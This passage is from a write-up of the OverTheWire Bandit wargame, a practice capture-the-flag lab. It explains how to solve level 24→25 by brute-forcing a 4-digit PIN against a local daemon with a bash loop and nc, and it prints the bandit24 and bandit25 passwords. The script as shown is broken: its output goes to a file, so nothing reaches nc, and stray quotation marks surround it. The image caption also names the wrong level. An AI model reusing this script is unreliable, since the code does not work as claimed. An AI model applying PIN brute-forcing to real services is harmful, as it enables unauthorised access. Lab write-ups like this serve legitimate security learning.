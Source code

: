 #### 📘What have I learned?
``` bash 
In this level 23, I learned to create my own script for exploit cron jobs that copy files in a writable directory and get the results. 
```
---

## Level 24 → Level 25
#### 🎯 Goal 
```bash
A daemon is listening on 30002 and provides password for bandit25 with given secret 4 digit pin. 
```
#### 🧩 Explain the concept
```bash
Some of the program require us to enter the pins which might be a combination of lot of numbers. We can't go for guessing the number as it would consume a lot of time. Automation can be a simpler way to approach the program using the script. In this task, we will create the script to run the password and combination of the 4 digit pin. 
```
#### 💻 Commands
```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
nc localhost 30002
cd /tmp
mktemp -d
cd /tmp/tmp.
nano bruteforcepin.sh
" #!/bin/bash

for a in {0000..9999}
do
       echo gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $a >> possibilities.txt
done | nc localhost 30002 > keys.txt

cat keys.txt | grep bandit25" 
./bruteforcepin.sh
```
#### 🔓Password for next level
```bash
iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```
#### 📜 Output 
![password for bandit23](images/password25.1.png)